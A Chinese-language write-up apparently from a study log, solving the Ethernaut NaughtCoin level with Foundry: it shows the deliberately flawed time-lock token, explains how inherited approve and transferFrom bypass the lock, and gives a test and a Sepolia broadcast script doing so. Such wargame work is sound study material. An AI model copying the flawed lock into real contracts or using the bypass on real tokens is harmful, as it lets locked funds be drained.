



# Foundry 通关 Ethernaut（14）— NaughtCoin

参加残酷共学打卡活动，记录一下这段时间的收获

## 目标

转走 player 所有 token 余额

## 漏洞合约

先来看漏洞合约本身，简单概括其核心功能：

1. **constructor**:  给指定地址 mint 对应数量的 NaughtCoin 代币
2. 函数修饰符：
   - lockTokens：函数调用者必须是构造函数中指定的地址，当前的时间戳大于 timeLock 变量（部署时的时间戳 + 10 年），函数才能继续执行
3. **transfer**：使用 ERC20 标准合约中的 transfer 函数给指定地址转指定数量的代币，这个函数使用 lockTokens 修饰

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "<https://github.com/OpenZeppelin/openzeppelin-contracts/contracts/token/ERC20/ERC20.sol>";

contract NaughtCoin is ERC20 {
    // string public constant name = 'NaughtCoin';
    // string public constant symbol = '0x0';
    // uint public constant decimals = 18;
    uint256 public timeLock = block.timestamp + 10 * 365 days;
    uint256 public INITIAL_SUPPLY;
    address public player;

    constructor(address _player) ERC20("NaughtCoin", "0x0") {
        player = _player;
        INITIAL_SUPPLY = 1000000 * (10**uint256(decimals()));
        // _totalSupply = INITIAL_SUPPLY;
        // _balances[player] = INITIAL_SUPPLY;
        _mint(player, INITIAL_SUPPLY);
        emit Transfer(address(0), player, INITIAL_SUPPLY);
    }

    function transfer(address _to, uint256 _value)
        public
        override
        lockTokens
        returns (bool)
    {
        super.transfer(_to, _value);
    }

    // Prevent the initial owner from transferring tokens until the timelock has passed
    modifier lockTokens() {
        if (msg.sender == player) {
            require(block.timestamp > timeLock);
            _;
        } else {
            _;
        }
    }
}
```

## 思路

这是一个时间锁合约，限制了用户的 token 转账。但是合约继承了 [**openzepplin**](https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/token/ERC20/ERC20.sol) 的标准 ERC20 合约，也继承了其中 approve , transferFrom 函数

```solidity
    function approve(address spender, uint256 value) public virtual returns (bool) {
        address owner = _msgSender();
        _approve(owner, spender, value);
        return true;
    }
    
    function transferFrom(address from, address to, uint256 value) public virtual returns (bool) {
        address spender = _msgSender();
        _spendAllowance(from, spender, value);
        _transfer(from, to, value);
        return true;
    }
```

- **approve** : 可以授权给 **spender** 额度，spender 可以通过 transferFrom 将小于等于这个额度的钱转给指定地址
- **transferFrom** : 当调用者具有 **from** 地址的授权额度时，就可以将 **from** 地址的小于等于额度的钱转给指定地址 **to**

## 踩坑

本来准备写攻击合约测试，然后发现不行，因为用了攻击合约，再次调用目标合约的函数，这个 msg.sender 就会变，所以不能用合约账户去调用函数，应该用 EOA 账户调用函数

这个合约感觉更多的不是从攻击者角度出发去攻击某个合约，像是项目方准备跑路hhh

## foundry 复现

### 测试

1. 测试脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Test, console} from "forge-std/Test.sol";
   import {NaughtCoin} from "../src/NaughtCoin.sol";
   
   contract NaughtCoinTest is Test {
       NaughtCoin public naught;
       uint256 public amount;
       address public owner = vm.addr(123);
       address public attacker = vm.addr(456);
   
       function setUp() public {
           vm.prank(owner);
           naught = new NaughtCoin(owner);
           amount = naught.INITIAL_SUPPLY();
       }
   
       function test_transfer() public {
           console.log("before",naught.balanceOf(owner));
           // 授权前，一定要切换到 owner 账户，因为部署时，是mint到这个账户的
           vm.prank(owner);
           naught.approve(attacker,amount);
           // 切换到 attacker 账户，被授权的 attacker 能转出余额
           vm.prank(attacker);
           naught.transferFrom(owner,attacker,amount);
           console.log("after",naught.balanceOf(owner));
       }
   }
   ```

2. 终端输入

   ```solidity
   forge test --match-path test/NaughtCoin.t.sol -vvvv
   ```

   

我们可以看到，攻击后，用户余额成功绕过时间锁转出

### 链上交互

1. 部署脚本

   ```solidity
   // SPDX-License-Identifier: UNLICENSED
   pragma solidity ^0.8.13;
   
   import {Script, console} from "forge-std/Script.sol";
   import {NaughtCoin} from "../src/NaughtCoin.sol";
   
   contract NaughtCoinScript is Script {
       NaughtCoin public naught;
       address public owner;
   
       address public target;
       uint256 public amount; 
   
       function setUp() public {
           // 实例化关卡合约
           naught = NaughtCoin("合约地址");
           owner = "部署者地址";
           target = "授权地址";
           amount = naught.INITIAL_SUPPLY();
   
       }
   
       function run() public {  
           // 授权
           vm.startBroadcast();
           naught.approve(target, amount);
           vm.stopBroadcast();
           
           // 切换用户发起调用
           vm.startBroadcast(vm.envUint("TARGET_PRIVATE_KEY"));
           naught.transferFrom(owner, target, amount);
           vm.stopBroadcast();
       }
   }
   ```

2. 要点

   对于部署脚本，就不能使用 prank 来切换用户，只有测试环境能在没有私钥的环境下切换用户，可以使用 vm.envUnit 来获取环境变量中的私钥

   ```solidity
       // broadcast again, this time using a private key from your environment variables
       vm.startBroadcast(vm.envUint("PRIVATE_KEY"));
   ```

3. 终端部署

   ```bash
   forge script script/NaughtCoin.s.sol --rpc-url $Sepolia_RPC_URL --broadcast --private-key $PRIVATE_KEY 
   ```

   

4. 查看合约数据

   ```bash
   cast call [关卡实例合约地址] "balanceOf(address)" [owner地址] --rpc-url $Sepolia_RPC_URL
   ```

   